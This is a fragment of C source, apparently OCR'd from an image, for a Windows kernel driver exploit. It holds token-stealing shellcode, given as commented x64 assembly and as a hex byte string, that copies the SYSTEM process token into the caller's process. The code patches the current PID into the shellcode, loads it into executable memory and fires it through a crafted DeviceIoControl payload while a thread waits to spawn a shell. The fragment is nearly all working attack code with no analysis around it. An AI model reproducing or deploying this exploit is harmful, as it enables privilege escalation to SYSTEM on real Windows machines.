 ```c
    DWORD PID = GetCurrentProcessId();

    /*
    mov rdx, gs:[0x188]; 
    mov rdx, [rdx+0xb8];
    mov r9, [rdx+0x1d8];
    mov rcx, r9;

    srch_for_sys:
    mov rdx, [rcx - 8];
    cmp rdx, 4;
    jz out1;
    mov rcx, [rcx];         
    jmp srch_for_sys;

    out1:
    mov rax, [rcx + 0x70];

    srch_our_proc:
    mov rdx, [rcx - 8];
    cmp rdx, 0x7788;
    jz final;
    mov rcx, [rcx];
    jmp srch_our_proc;

    final:
    mov [rcx + 0x70], rax;

    loop:
    jmp loop;

    ret;
    */

    char shellcode[] = "\x65\x48\x8B\x14\x25\x88\x01\x00\x00\x48\x8B\x92\xB8\x00\x00\x00\x4C\x8B\x8A\xD8\x01\x00\x00\x4C\x89\xC9\x48\x8B\x51\xF8\x48\x83\xFA\x04\x74\x05\x48\x8B\x09\xEB\xF1\x48\x8B\x41\x70\x48\x8B\x51\xF8\x48\x81\xFA\x88\x77\x00\x00\x74\x05\x48\x8B\x09\xEB\xEE\x48\x89\x41\x70\xEB\xFE\xC3";
    shellcode[52]=(char)PID;
    shellcode[53]=(char)(PID>>8);

    uintptr_t shellcode_ptr = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_ptr, shellcode, sizeof(shellcode));

    payload[40] = ADDR(shellcode_ptr);

    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)get_shell, NULL, NULL, NULL);
    BOOL result3 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        payload,
        sizeof(payload),
        NULL,
        sizeof(payload),
        &bytesReturned,
        NULL
    );

    return 0;
}
```
